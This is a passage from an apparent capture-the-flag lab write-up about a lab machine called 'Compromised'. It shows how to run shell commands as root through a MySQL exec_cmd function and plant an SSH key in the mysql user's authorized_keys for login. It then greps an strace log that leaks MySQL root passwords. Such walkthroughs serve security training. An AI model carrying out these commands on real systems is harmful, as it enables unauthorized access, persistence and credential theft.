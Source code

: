 now copy the ssh keys to mysql authorized_keys.

```shell
mysql -u root -pchangethis -e "select exec_cmd('mkdir /var/lib/mysql/.ssh')"

mysql -u root -pchangethis -e "select exec_cmd('echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBXWErI5Vfmz4Ok6OQ7Bz1oSIfHcG6Vh2P77Kulu4Kgj oxy@oxy > /var/lib/mysql/.ssh/authorized_keys')"


```

![ssh](/images/compromised/sshkey.png)

### Mysql Shell

lets ssh with public keys

```shell
┌─[✗]─[oxy@oxy]─[~/.ssh]
└──╼ $ssh -i id_ed25519 mysql@10.10.10.207
Last login: Sat Oct 17 04:05:31 2020 from 10.10.14.6
mysql@compromised:~$ whoami
mysql
```

## User

### Enumeration

lets enum for user
check the sysadmin user creds.

`grep -nlri sysadmin`

```shell
mysql@compromised:~$ cat strace-log.dat | grep password
22102 03:11:06 write(2, "mysql -u root --password='3*NLJE"..., 39) = 39
22227 03:11:09 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=3*NLJE32I$Fe"], 0x55bc62467900 /* 21 vars */) = 0
22227 03:11:09 write(2, "[Warning] Using a password on th"..., 73) = 73
22102 03:11:10 write(2, "mysql -u root --password='3*NLJE"..., 39) = 39
22228 03:11:15 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=changeme"], 0x55bc62467900 /* 21 vars */) = 0
22228 03:11:15 write(2, "[Warning] Using a password on th"..., 73) = 73
22102 03:11:16 write(2, "mysql -u root --password='change"..., 35) = 35
22229 03:11:18 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=changethis"], 0x55bc62467900 /* 21 vars */) = 0
22229 03:11:18 write(2, "[Warning] Using a password on th"..., 73) = 73
22232 03:11:52 openat(AT_FDCWD, "/etc/pam.d/common-password", O_RDONLY) = 5
22232 03:11:52 read(5, "#\n# /etc/pam.d/common-password -"..., 4096) = 1440
22232 03:11:52 write(4, "[sudo] password for sysadmin: ", 30) = 30
```
